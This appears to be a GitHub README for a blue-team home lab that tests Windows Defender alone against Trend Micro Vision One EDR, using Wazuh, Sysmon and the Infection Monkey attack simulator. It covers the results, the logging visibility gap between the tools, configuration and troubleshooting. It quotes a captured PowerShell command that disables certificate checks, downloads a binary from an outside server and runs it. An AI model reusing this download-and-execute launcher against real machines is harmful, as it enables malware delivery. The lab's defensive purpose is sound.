








# 🛡️ EDR vs Antivirus — Lab Test
### Defense-in-Depth Home Lab · Wazuh + Trend Micro Vision One + Infection Monkey

> **Can a traditional antivirus stop a real attack? What about an EDR?**  
> I ran both scenarios in a controlled lab — same attack, same endpoint, different tools. The results speak for themselves.

---

## 📋 Table of Contents

- [Lab Architecture](#-lab-architecture)
- [The Question](#-the-question)
- [Scenario 1 — Antivirus Only (No EDR)](#-scenario-1--antivirus-only-no-edr)
- [Scenario 2 — EDR Active](#-scenario-2--edr-active)
- [Key Finding: The Visibility Gap](#-key-finding-the-visibility-gap)
- [MITRE ATT&CK Techniques Observed](#-mitre-attck-techniques-observed)
- [Configuration](#-configuration)
- [Troubleshooting — Real Errors](#-troubleshooting--real-errors)
- [What's Next](#-whats-next)
- [Tools & Stack](#-tools--stack)

---

## 🏗️ Lab Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                    Private Network (Tailscale)               │
│                                                             │
│  ┌──────────────┐    ┌───────────────────┐    ┌──────────┐  │
│  │  Ubuntu 22   │    │    Windows 10     │    │  Kali    │  │
│  │  Wazuh SIEM  │◄───│    Endpoint       │    │  Linux   │  │
│  │   Manager    │    │  + Sysmon         │    │ Attacker │  │
│  └──────────────┘    │  + Wazuh Agent    │    └────┬─────┘  │
│                      │  + EDR Agent      │         │        │
│                      └───────────────────┘         │        │
│                               ▲                    │        │
│                               └── Infection Monkey─┘        │
└─────────────────────────────────────────────────────────────┘
                                │
                    ┌───────────▼──────────┐
                    │  Trend Micro         │
                    │  Vision One Cloud    │
                    └──────────────────────┘
```

| Component | System | Role |
|---|---|---|
| Wazuh Manager | Ubuntu 22.04 LTS | SIEM — log centralization & alerting |
| Endpoint | Windows 10 | Simulated victim |
| Attacker | Kali Linux | Attack platform |
| Network | Tailscale | Private mesh VPN |
| EDR | Trend Micro Vision One (Apex One) | Endpoint detection & response |
| BAS | Infection Monkey | Breach & attack simulation |
| Telemetry | Sysmon v15 | Extended Windows event logging |

---

## ❓ The Question

In security conferences and courses, you always hear:

> *"An antivirus is not enough. You need an EDR."*

I wanted to see it with my own eyes — not read about it, not watch a demo. Run it myself.

Three scenarios, same attack (Infection Monkey with ransomware + cryptojacking payloads), same Windows 10 endpoint:

| Scenario | Setup | Result |
|---|---|---|
| 1 | Windows Defender only, no EDR | VM crashed. BSOD. |
| 2 | Windows Defender + Trend Micro Vision One EDR | Blocked immediately. |
| 3 | EDR only | Blocked immediately. |

---

## 💀 Scenario 1 — Antivirus Only (No EDR)

### Setup
- Wazuh agent + Sysmon installed on Windows 10
- Trend Micro **not** installed
- Windows Defender active

### Attack Executed

PowerShell command captured by Wazuh + Sysmon:

```powershell
$execCmd = @"
`$monkey=[System.IO.Path]::GetTempPath() + """monkey.exe""";
[Net.ServicePointManager]::SecurityProtocol = [System.Net.SecurityProtocolType]::Tls12;
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {`$true};
(New-Object System.Net.WebClient).DownloadFile(
  'https://100.110.13.83:5000/api/agent-binaries/windows', """`$monkey""");
`$env:MONKEY_OTP='j-lsWzCLZJu1hdzt0530xQWrTusd57un';
Start-Process -FilePath """`$monkey""" -ArgumentList 'm0nk3y -s 100.110.13.83:5000';
"@;
Start-Process -FilePath powershell.exe -ArgumentList $execCmd
```

### What Windows Defender did
Detected some threats → quarantined individual files → **the attack kept running**.

### What Wazuh saw

**1,734 events** in the attack window. Sysmon captured every command, every process, every lateral movement attempt — including Account Discovery techniques running in automated loops.


*Wazuh capturing Account Discovery (T1087), process enumeration and command chains during the live attack*


*Sysmon telemetry: exact command lines, parent processes, MITRE ATT&CK technique tags visible in the log feed*

### The Result

System crashed. BSOD. Windows attempted automatic repair and failed.

> Log generated: `C:\Windows\System32\Logfiles\Srt\SrtTrail.txt`  
> The Startup Repair Tool log — created when Windows tries and fails to recover from a critical boot failure.


*Windows Automatic Repair failed. The ransomware payload corrupted enough of the system that even the recovery tool couldn't fix it.*

**The snapshot saved everything.** Before any malware test, I took a VirtualBox snapshot. Recovery: 2 minutes. Without it: hours of reinstalling Windows, Sysmon, Wazuh agent, and all configuration from scratch.

> ⚠️ **Lab rule #1:** Snapshots are not convenience. They are infrastructure.

---

## 🛡️ Scenario 2 — EDR Active

### Setup
- Restored from snapshot (clean state)
- Installed Trend Micro Vision One agent
- Policy assigned: *Endpoint Sensor General Policy*
- Capabilities verified: Endpoint Sensor ✅ · Advanced Risk Telemetry ✅


*Endpoint Inventory: Windows 10 with XDR for Endpoints status "Enabled" — confirmed before running the attack*


*Security Capability Status: Endpoint Sensor and Advanced Risk Telemetry both confirmed Running*

### Same Attack, Same Command

Exact same PowerShell command from Scenario 1.

### What happened

**22:57** — Infection Monkey launches. Apex One detects a Behavior Monitoring policy violation and blocks the process immediately.


*"Instantánea 2" in the VirtualBox title bar confirms the snapshot was taken. Apex One fires: "Malicious Behavior Detections — blocked the offending process(es)"*

**23:01** — Second detection: the binary itself flagged as Spyware/Grayware.


*The exact PowerShell command that crashed the VM in Scenario 1. This time the EDR fires before the binary can execute.*

### Threat Details Logged


*Complete threat record: name, type, detection method, result, and file component — all logged automatically*

| Field | Value |
|---|---|
| Threat name | PUA.Win64.MonkeyTest.THAAABD |
| Threat type | Spyware |
| Detection method | Real-time Scan |
| Result | Successful — Cleaned |
| File SHA-1 | daa9837b324d3f8b1100d57fd7968d460d7b88ff |
| File SHA-256 | 27cbfa9d2208405e7c20d0e8e3ed5800d6ee7627662296c5ef50be12ac616fa4 |
| Quarantine path | `C:\Program Files (x86)\Trend Micro\Security Agent\BackupAS\Clean Session 20260511_230109` |

### VirusTotal Confirmation

Binary `monkey-windows-64.exe` submitted independently:
- **35/72** vendors flagged as malicious
- Threat label: `trojan.infectionmonkey/python`
- CrowdStrike Falcon: **Win/malicious_confidence_100%**


*35 out of 72 vendors detected the binary. The antivirus in Scenario 1 caught some artifacts — but not the behavior that made the difference.*

### Endpoint Event Viewer — Cloud Console


*The Vision One cloud console logs every event with file hash, quarantine path, and full timeline — telemetry that never reaches Wazuh without explicit integration*

---

## 🔍 Key Finding: The Visibility Gap

The most important — and unexpected — finding of this lab.

| | Wazuh received | Trend Micro logged |
|---|---|---|
| **Without EDR** | 1,734 events — commands, IPs, techniques, process chains | — |
| **With EDR** | Only the initial PowerShell command | Full detection, hash, quarantine, timeline |

**Why?** The EDR neutralized the threat so fast there was no subsequent activity to generate. Trend Micro's telemetry lives in its cloud console — it doesn't write to local logs that Wazuh can ingest without explicit integration.

**What this means in a real SOC:**

- The EDR **stops**. The SIEM **understands**. They are different layers, not redundant ones.
- Having an EDR does not automatically mean having visibility.
- Without Sysmon, Wazuh would have seen far less even in Scenario 1.
- Integrating these tools requires explicit configuration: API forwarding or syslog.

> This gap is where real incidents get missed — not because tools failed, but because they weren't talking to each other.

---

## 🗺️ MITRE ATT&CK Techniques Observed

| ID | Technique | Scenario | Captured by |
|---|---|---|---|
| T1059.001 | PowerShell | 1 & 2 | Wazuh + Sysmon |
| T1087 | Account Discovery | 1 | Wazuh |
| T1105 | Ingress Tool Transfer | 1 | Wazuh |
| T1562.001 | Impair Defenses | 1 | Wazuh |
| T1021 | Remote Services | 1 | Wazuh |
| —  | Malicious Behavior Detection | 2 | Trend Micro (blocked) |

---

## ⚙️ Configuration

### Sysmon — ossec.conf (Wazuh Agent, Windows)

```xml
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

### Slack Webhook — ossec.conf (Wazuh Manager)

```xml
<integration>
  <name>slack</name>
  <hook_url>https://hooks.slack.com/services/YOUR_WEBHOOK_HERE</hook_url>
  <alert_level>10</alert_level>
</integration>
```

Test before restarting:

```bash
curl -X POST -H 'Content-type: application/json' \
  --data '{"text":"Test from Wazuh"}' \
  https://hooks.slack.com/services/YOUR_WEBHOOK_HERE

systemctl restart wazuh-manager
```

### Trend Micro Vision One — Agent Install (Windows)

```powershell
# Run as Administrator
.\EndpointBasecamp.exe /s /v"/qn REBOOT=ReallySuppress"
```

After install, verify in the local console:  
**Settings → Security Capability Status**  
Both **Endpoint Sensor** and **Advanced Risk Telemetry** must show **Running**.

---

## 🐛 Troubleshooting — Real Errors

### Wazuh agent disconnects after snapshot revert

**Symptom:** Agent shows disconnected in Wazuh after restoring a snapshot.  
**Cause:** Agent UUID desync between snapshot state and manager.

```bash
# Remove old agent on the manager
/var/ossec/bin/manage_agents -r <AGENT_ID>

# Reinstall and re-register on Windows endpoint
.\wazuh-agent-x.x.x.msi /q ADDRESS="MANAGER_IP" AUTHD_SERVER="MANAGER_IP"
```

### Trend Micro telemetry not reaching Wazuh

**Symptom:** EDR blocks threats but Wazuh only sees the initial PowerShell command.  
**Cause:** By design — Vision One sends telemetry to its cloud console, not local logs.  
**Workaround:** Manual timestamp correlation between Wazuh and Trend Micro consoles.  
**Real fix:** Configure Vision One syslog forwarding or use the API to ingest events into Wazuh.

### Slack webhook returns error

**Symptom:** `curl: (6) Could not resolve host` or `400 Bad Request`

```bash
# Check for hidden line breaks in the config file
cat -A /var/ossec/etc/ossec.conf | grep hook_url

# Restart after any edit
systemctl restart wazuh-manager
```

---

## 🗺️ What's Next

- [ ] **EDR → Wazuh integration** via Vision One API or syslog — close the visibility gap documented above
- [ ] **SOAR integration** (Shuffle) — Wazuh detects → playbook isolates endpoint via Trend Micro API automatically
- [ ] **Custom Wazuh detection rules** tuned for Infection Monkey behavior patterns
- [ ] **Lab 2** — Active Directory + lateral movement simulation

---

## 🧰 Tools & Stack

| Tool | Role |
|---|---|
| Wazuh 4.14 | SIEM — log collection, correlation, alerting |
| Sysmon 15.x | Extended Windows telemetry |
| Trend Micro Vision One | EDR/XDR — endpoint detection & response |
| Infection Monkey 2.x | Breach & attack simulation (BAS) |
| Tailscale | Private mesh network between VMs |
| VirtualBox 7.x | Hypervisor + snapshot management |
| Slack | Real-time alert delivery via webhook |
| VirusTotal | IOC enrichment & binary analysis |

---

## ⚠️ Disclaimer

This lab runs in an isolated, controlled environment. All tools and techniques are used strictly for educational and research purposes. Do not replicate on production networks or without explicit authorization.

---

## 👤 Author

**Lisa Marie Moreno** — Blue Team Analyst | SOC Operations  
[lisamorenoit.github.io](https://lisamorenoit.github.io) · [LinkedIn](https://linkedin.com/in/lisa-marie-moreno)

*Built, broken, and learned from. That's the point.*
